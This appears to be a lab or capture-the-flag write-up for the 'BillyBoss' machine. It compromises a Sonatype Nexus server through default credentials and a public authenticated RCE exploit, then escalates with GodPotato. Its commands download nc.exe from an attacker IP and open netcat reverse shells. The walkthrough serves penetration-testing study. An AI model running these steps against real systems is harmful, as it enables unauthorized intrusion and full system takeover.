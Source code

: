 # BillyBoss

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.175.61 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 20:35 +08
Nmap scan report for 192.168.175.61
Host is up (0.17s latency).
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8081/tcp  open  blackice-icecap
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

To avoid making this long:

* FTP was not interesting because anonymous access isn't allowed and guessing credentials is pointless.
* Port 80 had some application that wasn't working properly.
* SMB did not accept null credentials and had nothing there.
* The rest of the ports were pretty useless.

### Default Creds --> Nexus RCE

Port 8081 had a Nexus Repository Manager that was running:

<figure><img src="../../../.gitbook/assets/image (79) (6).png" alt=""><figcaption></figcaption></figure>

To exploit this, we first need to guess the credentials to login. `nexus:nexus` works for this one. Then, we need to grab the correct exploit:

```
$ searchsploit sonatype     
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticat | java/webapps/49385.py
----------------------------------------------------------- ---------------------------------
```

Edit the exploit accordingly:

```
URL='http://192.168.175.61:8081'
CMD='cmd.exe /c powershell -c wget 192.168.45.164/nc64.exe -Outfile C:/Windows/Tasks/nc.exe'
USERNAME='nexus'
PASSWORD='nexus'
```

Then, we can

Then, we can execute the script once to download `nc.exe` onto the machine, and another to execute `nc.exe` to get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (52) (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SeImpersonatePrivilege --> Admin Shell

The user has `SeImpersonatePrivilege` enabled:

```
C:\Windows\Tasks>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

However, `PrintSpoofer.exe` wasn't working normally, so we probably need to use another method. Instead, we can use `GodPotato.exe` to do this:

{% embed url="https://github.com/BeichenDream/GodPotato/releases" %}

```
.\potato.exe -cmd "C:\Windows\Tasks\nc.exe 192.168.45.164 4444 -e cmd.exe"
```

<figure><img src="../../../.gitbook/assets/image (63) (3).png" alt=""><figcaption></figcaption></figure>

For some reason, this user was unable to run `whoami`, so I just captured the flag instead:

![](<../../../.gitbook/assets/image (73) (6).png>)
